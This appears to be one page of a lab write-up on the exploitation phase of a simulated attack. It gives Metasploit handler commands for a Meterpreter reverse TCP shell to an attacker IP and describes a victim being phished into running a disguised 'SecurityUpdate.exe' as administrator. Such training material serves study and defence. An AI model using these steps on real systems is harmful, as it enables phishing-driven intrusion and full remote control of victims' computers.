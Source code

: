 # 💥 Phase 4: Exploitation

## 🎯 Objective

Trigger the execution of the malicious payload and establish a connection back to the attacker’s machine.

---

## 🧰 Step 1: Launch Metasploit Framework

Start the **Metasploit console** on the attacker’s machine:

```bash
msfconsole
```

Once loaded, configure the handler to catch the incoming reverse shell:

```bash
use exploit/multi/handler
```

---

## ⚙️ Step 2: Configure the Exploit

Match the handler settings to the payload created during the Weaponization phase:

```bash
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.19.19.134
set LPORT 4444
run
```

![Metasploit console](https://github.com/user-attachments/assets/2b9f26c2-9ef3-47ae-87fa-c33ac937abcb)

📌 **Explanation of Settings**

| Setting   | Description                                |
| --------- | ------------------------------------------ |
| `PAYLOAD` | Specifies the type of reverse shell to use |
| `LHOST`   | IP address of the attacker's machine       |
| `LPORT`   | Listening port for incoming connections    |

---

## 🧑‍💻 Victim Interaction

The victim performs the following steps:

1. Opens the phishing email and clicks the **shortened URL**.
2. Downloads `SecurityUpdate.exe` from the attacker’s Python server.
3. Executes the file using **Command Prompt with administrator privileges** or with just **Right-Click** on the file and **Run as Administrator**.

---

## 🔄 Establishing the Connection

Once executed, the payload silently:

* Initiates a **reverse TCP session** to `10.19.19.134:4444`.
* Connects back to the attacker's Metasploit listener.
* Opens a **Meterpreter shell**, granting the attacker full remote control of the victim's Windows machine.

✅ At this point, the **exploitation is successful**, and the attacker has established command-line access for further actions.
